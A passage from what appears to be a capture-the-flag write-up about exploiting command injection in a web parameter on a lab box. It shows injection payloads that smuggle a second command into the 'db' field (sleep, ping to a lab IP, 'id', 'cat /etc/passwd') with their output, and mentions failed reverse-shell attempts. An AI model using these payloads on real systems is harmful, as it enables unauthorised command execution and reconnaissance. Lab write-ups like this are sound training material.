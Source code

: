 `"%20$(sleep%2050)"`

It's a 50 second sleep! I rushed back to "burp" to verify that with a 3 second sleep.
And it worked! We have command execution!

I played a long time with this "feature" to get a "reverse-shell". But I failed.
So I tried getting some type of "ICMP Tunnel" going because it seemed that only "ICMP" was allowed.

But after hours of poking at it, I asked a buddy if I am in a rabbit-hole of some sorts.
He just laughed and said, that he made the very same mistake and wasted hours too.

We both forgot about the basics of injection. Both of us did the injections like this:

`db=$(ping -c 1 10.10.14.5)`

Which is basically a "sub-bash". Which doesn't give you the same experience as a "native" bash-process.
It won't return output of commands like `ls -la`.
So what's the solution to this? Well, append a command to the existing one.

`db=; ping -c 1 10.10.14.5`

Easy! Well, when you remember the stuff you've done a dozen times by now.
However, I wasn't able so spawn a "reverse-shell" this way. So I spent some time enumerating the filesystem.

[[Top]](#top)

# Explore

I started with `id` and `/etc/passwd` to see who's boss on that box.

```
db=; id
uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)

db=; cat /etc/passwd
charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
bob:*:1001:1001::/home/bob:/bin/ksh
nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf
```

The "nfsuser" sticks out. I expected a couple of normal users, but a service user like this should make
you wondering what it does. ;)

Most configs for services are in "/etc" so I started my search there. And sure enough I found the configs for "authpf"
there. Why "authpf"? It's in the path of "nfsuser". Unfortunately we can't access them with our current permissions.

So I checked his "/home" directory.

`db=; ls -la /home/nfsuser`

This was a dead end too. Let's check "port 443" then.

![https_firefox_error](https_firefox_error.png)
